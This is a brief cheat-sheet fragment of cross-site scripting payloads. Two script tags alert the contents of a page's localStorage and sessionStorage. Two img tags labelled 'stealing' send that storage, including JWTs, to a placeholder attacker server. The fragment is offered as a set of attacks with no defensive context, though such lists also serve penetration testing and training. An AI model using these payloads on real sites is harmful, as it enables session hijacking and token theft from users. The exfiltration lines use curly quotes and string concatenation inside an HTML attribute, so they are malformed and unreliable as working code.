 <b>`localStorage` in `alert`:</b>
```html
<script>alert(JSON.stringify(localStorage))</script>
```
<b>`sessionStorage` in `alert`:</b>
```html
<script>alert(JSON.stringify(sessionStorage))</script>
```
<b>`localStorage` stealing:</b>
```html
<img src=’https://<attacker-server>/yikes?jwt=’+JSON.stringify(localStorage);’--!>
```
<b>`sessionStorage` stealing:</b>
```html
<img src=’https://<attacker-server>/yikes?jwt=’+JSON.stringify(sessionStorage);’--!>
```

